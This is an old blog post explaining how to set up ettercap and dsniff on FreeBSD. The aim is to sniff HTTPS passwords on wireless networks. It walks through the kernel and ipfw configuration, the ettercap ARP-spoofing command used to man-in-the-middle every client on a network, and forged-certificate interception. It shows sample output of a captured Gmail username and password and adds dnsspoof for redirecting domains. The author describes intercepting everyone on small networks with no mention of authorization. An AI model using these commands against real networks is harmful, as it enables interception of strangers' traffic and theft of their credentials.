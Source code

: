 ```yaml
---
title: "HTTPS password sniffing on FreeBSD"
date: "2011-01-26T09:24:00-07:00"
slug: "https-password-sniffing-on-freebsd"
---
```


Shmoocon is a few days away, it's time to gear up with common tools that I rarely use. As a [FreeBSD](http://freebsd.org) user sometimes I have to go through a little extra trouble to get some tools functioning correctly. It's generally not on the top of the list as operating systems to use as an attack platform.

Fortunately I don't have to manage wireless networks, nor do I have to watch exactly what data is traveling through http/s. So the top of the list is sniffing SSL traffic. Yeah, I don't sit in starbucks reading peoples email. Everyone's email is just as boring as mine, and I barely have time to read my own.  Some people like [dsniff](http://www.monkey.org/~dugsong/dsniff/), I like [ettercap](http://ettercap.sourceforge.net) despite they have been [owned and exposed](http://www.exploit-db.com/papers/15823/), and the source possibly noodled with. Like any other software, run at your own risk, we are all most likely compromised anyway. Both software packages are available in the ports collection.

Please note this is written while running FreeBSD 8.1-RELEASE-p2

Install the security/dsniff and net-mgmt/ettercap ports.
<blockquote>cd /usr/ports/net-mgmt/ettercap ; make install clean
cd /usr/ports/security/dsniff  ; make install clean</blockquote>
Unfortunately this does require to stray away from the GENERIC kernel. The  IPFIREWALL_FORWARD option must be compiled in, so you might as well add the standard ipfw stuff. Create a custom kernel file, and add the following options to your kernel configuration.
<blockquote>cp /usr/src/sys/i386/conf/GENERIC /usr/src/sys/i386/conf/NOTGENERIC</blockquote>
Edit NOTGENERIC to add the following options.

options         IPFIREWALL
options         IPFIREWALL_VERBOSE
options         IPFIREWALL_DEFAULT_TO_ACCEPT
options         IPFIREWALL_FORWARD
options         IPDIVERT

Compile, install your custom kernel, and boot it.
<blockquote>cd /usr/src ;  make buildkernel KERNCONF=NOTGENERIC
make installkernel KERNCONF=NOTGENERIC</blockquote>
Now add the following options to your /etc/rc.conf
<blockquote>firewall_enable="YES"
firewall_type="open"</blockquote>
Finally, reboot with your new kernel configuration.
<blockquote>shutdown -r now</blockquote>
Edit /usr/local/etc/etter.conf to adjust the privileges which are default to 65534. Uncomment the two lines for ipfw from the osx section in the file.
<blockquote>redir_command_on = "ipfw add fwd 127.0.0.1,%rport tcp from any to any %port in via %iface"
redir_command_off = "ipfw -q flush"</blockquote>
Now you're ready to fire up your tools and skiddie away.  Ettercap doesn't care what flavor of switched network your on, just be sure to specify the interface. Smaller wireless networks where there is only basic web traffic I tend to just man in the middle everyone. Remember you can down the network, and DoS yourself with this as you're dealing with everyone's traffic. What is great about ettercap for sniffing ssl connections is it creates the fake certificates on the fly, entering the correct content with the incorrect issuer. People straight up ignore the invalid certificate and warnings their browser provides.
<blockquote>ettercap -T -q -i wlan0 -l etterout.txt -M ARP // //</blockquote>
In this instance we have arp spoofed a wireless access point, effectively man in the middle attacking all associated clients on the network. You can now intercept the ssl handshake, provide your forged certificate, and steal the credentials in plain text.
<blockquote>HTTP : 209.85.175.99:443 -&gt; USER: acctname  PASS: stolenpass  INFO: https://www.google.com/accounts/ServiceLogin?service=mail&amp;passive=true&amp;rm=false&amp;continue=http://mail.google.com/mail/?ui=html&amp;zy=l&amp;bsv=1eic6yu9oa4y3&amp;</blockquote>
You can also do all these things with the dsniff package, and other utilites are still very handy such as dnsspoof if you want to target specific hosts. Create a hosts style text file to redirect domains to various ip's.
<blockquote>dnsspoof -i wlan0 -f hosts</blockquote>
